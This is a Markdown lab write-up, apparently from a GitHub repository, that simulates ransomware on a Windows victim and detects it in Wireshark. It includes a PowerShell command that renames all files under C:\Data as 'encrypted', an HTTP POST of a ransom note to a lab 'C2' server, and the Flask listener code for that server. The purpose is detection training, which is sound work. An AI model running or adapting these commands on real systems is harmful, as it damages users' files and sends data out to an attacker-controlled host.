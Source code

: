 
# 🛠️ Scenario 8 — Ransomware Simulation (File Encryption + Exfiltration)

This lab simulates ransomware behavior on a Windows victim: file encryption followed by ransom note exfiltration over HTTP. The goal is to monitor and detect this activity using tools like **Wireshark**, aligning with real-world MITRE ATT&CK techniques.

---

## 🧪 Red Team Activity

### 🖥️ Simulated File Encryption (PowerShell)
We recursively renamed all files under `C:\Data` to mimic encryption:

```powershell
Get-ChildItem -Path C:\Data -Recurse | ForEach-Object {
    Rename-Item $_.FullName ($_.FullName + ".encrypted")
}
```

---

### 📤 Ransom Note Exfiltration via HTTP

We used `Invoke-WebRequest` to simulate sending a ransom note back to a Command & Control (C2) server:

```powershell
Invoke-WebRequest -Uri http://192.168.2.131:8080/ransom_note.txt -Method POST -Body "Pay up"
```

📷 **PowerShell Output:**
![PowerShell POST](./screenshots/Screenshot%202025-09-01%20130711.png)

---

## 🖥️ Flask Server on Kali (Simulated C2)

A simple Flask server received the ransom note:

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/ransom_note.txt', methods=['POST'])
def receive():
    data = request.data.decode('utf-8', errors='ignore')
    print(f"[+] Received ransom note: {data}")
    with open('received_ransom_note.txt', 'a', encoding='utf-8') as f:
        f.write(data + '\n-----\n')
    return 'OK\n', 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

📷 **Server Output:**
![POST received](./screenshots/Screenshot%202025-09-01%20130730.png)

---

## 🧠 Blue Team Detection (Wireshark)

Using the following display filter, we captured the POST request to the attacker:

```wireshark
(http.request or tls.handshake.type==1) and !(ssdp)
```

📷 **Wireshark Capture:**
![Wireshark POST](./screenshots/Screenshot%202025-09-01%20130117.png)

This revealed:
- **Source IP:** 192.168.2.129 (Windows victim)
- **Destination IP:** 192.168.2.131:8080 (Kali C2)
- **Protocol:** HTTP POST
- **Payload:** `Pay up`

---

## 📁 File Received on Attacker

The ransom note was written to the attacker's `received_ransom_note.txt`.

📷 **Ransom Note Contents:**
![Cat ransom note](./screenshots/Screenshot%202025-09-01%20130104.png)

---

## 🧩 MITRE ATT&CK Mapping

| Technique ID | Technique Name                 | Simulation |
|--------------|--------------------------------|------------|
| T1486        | Data Encrypted for Impact      | `.encrypted` suffix added |
| T1041        | Exfiltration Over C2 Channel   | HTTP POST to Flask server |

---

## ✅ Outcome

- Successfully simulated ransomware encryption and exfiltration
- Captured POST in Wireshark
- File was written on attacker's C2 server
- Fully observable & repeatable for detection testing

---

## 📂 Screenshots

Place these files in a `/screenshots/` folder in your repo:

| File Name | Description |
|-----------|-------------|
| `Screenshot 2025-09-01 130711.png` | PowerShell POST |
| `Screenshot 2025-09-01 130730.png` | Flask server receiving POST |
| `Screenshot 2025-09-01 130117.png` | Wireshark capture |
| `Screenshot 2025-09-01 130104.png` | Kali note file |
| `Screenshot 2025-09-01 125532.png` | Flask POST log |
